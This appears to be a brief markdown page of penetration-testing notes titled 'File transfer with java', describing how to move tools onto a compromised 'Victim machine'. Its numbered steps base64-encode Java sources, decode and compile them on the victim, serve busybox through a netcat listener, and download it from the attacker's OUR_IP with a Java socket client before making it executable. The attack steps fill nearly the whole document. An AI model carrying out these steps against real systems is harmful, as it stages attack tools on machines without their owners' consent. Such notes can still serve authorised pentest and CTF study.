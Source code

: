 ## File transfer with java

#### 1) 

    base64 SocketClient.java

#### 2) 

    echo "BASE64ENCODED" | base64 -d > SocketClient.java (Victim machine)

#### 3) 

    javac SocketClient.java 

#### 4) 

    base64 FilePermissions.java

#### 5)  

    echo "BASE64ENCODED" | base64 -d > FilePermissions.java (Victim machine)

#### 6) 

    javac FilePermissions.java

#### 7) 

    nc -lvnp 5555 < busybox

#### 8) 

    java SocketClient OUR_IP 5555 > busybox (Victim machine)

#### 9) 

    java FilePermissions (Give busybox permissions to execute)
